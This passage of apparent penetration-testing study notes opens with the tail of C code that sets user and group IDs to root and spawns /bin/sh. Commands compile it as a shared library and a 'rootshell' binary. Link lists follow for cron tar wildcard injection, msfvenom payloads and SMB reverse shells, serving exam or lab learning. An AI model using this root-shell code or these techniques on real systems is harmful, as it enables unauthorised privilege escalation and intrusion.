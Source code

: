 > setuid(0);
>
> setgid(0);
>
> seteuid(0);
>
> setegid(0);
>
> execvp(\"/bin/sh\", NULL, NULL);
>
> }
>
> root@Machine1:\~# gcc -fPIC -shared -ldl -o libhax.so libhax.c
>
> root@Machine1:\~# gcc -o rootshell rootshell.c
>
> ![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image22.png){width="6.5in"
> height="4.75in"}

# 

## Exploiting Cron Jobs -- tar Wildcard Injection

[[https://juggernaut-sec.com/cron-jobs-lpe/#Exploiting_Cron_Jobs\_%E2%80%93_tar_Wildcard_Injection]{.underline}](https://juggernaut-sec.com/cron-jobs-lpe/#Exploiting_Cron_Jobs_%E2%80%93_tar_Wildcard_Injection)

# 

# 

# 

# 

# MSFVENOM cheat Sheet

[[https://book.hacktricks.xyz/shells/shells/msfvenom]{.underline}](https://book.hacktricks.xyz/shells/shells/msfvenom)

[[https://notchxor.github.io/oscp-notes/8-cheatsheets/msfvenom/]{.underline}](https://notchxor.github.io/oscp-notes/8-cheatsheets/msfvenom/)

[[https://sushant747.gitbooks.io/total-oscp-guide/content/reverse-shell.html]{.underline}](https://sushant747.gitbooks.io/total-oscp-guide/content/reverse-shell.html)

**Fix samba version**

[[https://unix.stackexchange.com/questions/450986/linux-to-windows-can-list-smb-shares-but-cannot-connect]{.underline}](https://unix.stackexchange.com/questions/450986/linux-to-windows-can-list-smb-shares-but-cannot-connect)

**Reverse shell via smb login linux**

[[https://medium.com/@nmappn/exploiting-smb-samba-without-metasploit-series-1-b34291bbfd63]{.underline}](https://medium.com/@nmappn/exploiting-smb-samba-without-metasploit-series-1-b34291bbfd63)
